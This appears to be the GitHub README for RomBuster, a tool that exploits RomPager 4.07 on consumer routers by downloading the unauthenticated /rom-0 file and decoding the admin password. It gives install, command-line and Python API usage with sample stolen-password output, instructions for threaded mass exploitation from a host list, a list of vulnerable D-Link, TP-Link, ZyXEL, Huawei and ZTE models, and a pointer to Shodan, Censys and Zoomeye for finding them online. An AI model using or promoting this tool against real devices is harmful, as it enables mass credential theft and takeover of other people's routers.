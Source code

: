 # RomBuster

RomBuster is a RomPager exploitation tool that allows to disclosure network device admin password.

## Features

* Exploits vulnerabilities in most popular router models with RomPager installation such as `D-Link`, `Zyxel`, `TP-Link` and `Huawei`.
* Optimized to exploit multiple routers at one time from list with threading enabled.
* Simple CLI and API usage.

## Installation

```shell
pip3 install git+https://github.com/EntySec/RomBuster
```

## Basic usage

To use RomBuster just type `rombuster` in your terminal.

```
usage: rombuster [-h] [--threads] [--output OUTPUT] [--input INPUT] [--address ADDRESS]

RomBuster is a RomPager exploitation tool that allows to disclosure network device admin password.

optional arguments:
  -h, --help         show this help message and exit
  --threads          Use threads for fastest work.
  --output OUTPUT    Output result to file.
  --input INPUT      Input file of addresses.
  --address ADDRESS  Single address.
```

### Examples

Let's hack my router just for fun.

```shell
rombuster --address 192.168.2.1
```

**output:**

```shell
[*] (192.168.2.1) - connecting to device...
[*] (192.168.2.1) - accessing device rom...
[*] (192.168.2.1) - extracting admin password...
[i] (192.168.2.1) - password: SuperHardPassword999
```

Let's try to use opened database of hosts with `--threads` for fast exploitation.

```shell
rombuster --threads --input routers.txt --output passwords.txt
```

It will exploit all devices in `routers.txt` list by their addresses and save all obtained passwords to `passwords.txt`.

**output:**

```shell
[*] Initializing thread #0...
[*] (x.x.x.x) - connecting to device...
[*] Initializing thread #1...
[*] (x.x.x.x) - connecting to device...
[*] Initializing thread #2...
[*] (x.x.x.x) - connecting to device...
[*] (x.x.x.x) - accessing device rom...
[*] (x.x.x.x) - extracting admin password...
[i] Thread #0 completed.
[*] (x.x.x.x) - connecting to device...
[*] (x.x.x.x) - accessing device rom...
[*] (x.x.x.x) - extracting admin password...
[i] Thread #1 completed.
[*] (x.x.x.x) - connecting to device...
[*] (x.x.x.x) - accessing device rom...
[*] (x.x.x.x) - extracting admin password...
[i] Thread #2 completed.
```

## RomBuster API

RomBuster also has their own Python API that can be invoked by importing RomBuster to your code:

```python
from rombuster import RomBuster
```

### Basic functions

There are all RomBuster basic functions that can be used to exploit specified device.

* `connect(host)` - Connect specified defice by netword address.
* `exploit(device)` - Exploit connected device.

### Examples

```python
from rombuster import RomBuster

rombuster = RomBuster()

device = rombuster.connect('192.168.2.1')
print(rombuster.exploit(device))
```

**output:**

```shell
{'admin': 'SuperHardPassword999'}
```

## Vulnerability details

Vulnerability that exploits **RomBuster** exists nowadays in some popular routers all over the world. This vulnerability allows you to download `/rom-0` RomPager configuration file without authentication. **RomBuster** downloads this file, decodes it and giving you password of the router `admin`. Pretty easy way to access main network interface - router.

**Vulnerable RomPager versions:**

* **RomPager/4.07**

**Vulnerable devices:**

* **AirLive WT-2000ARM**
* **D-Link DSL-2520U**
* **D-Link DSL-2640R**
* **D-Link DSL-2740R**
* **Huawei 520 HG**
* **Huawei 530 TRA**
* **Pentagram Cerberus P 6331-42**
* **TP-Link TD-8816**
* **TP-Link TD-8817**
* **TP-LINK TD-8840T**
* **TP-Link TD-W8901G**
* **TP-Link TD-W8951ND**
* **TP-Link TD-W8961ND**
* **ZTE ZXV10 W300**
* **ZTE ZXDSL 831CII**
* **ZynOS**
* **ZyXEL ES-2024**
* **ZyXEL Prestige P-2602HW**
* **ZyXEL Prestige 782R**

**NOTE:** All these devices still online and can be found at `Shodan`, `Censys` or `Zoomeye`, that means that vulnerability is not completely patched (very sad).
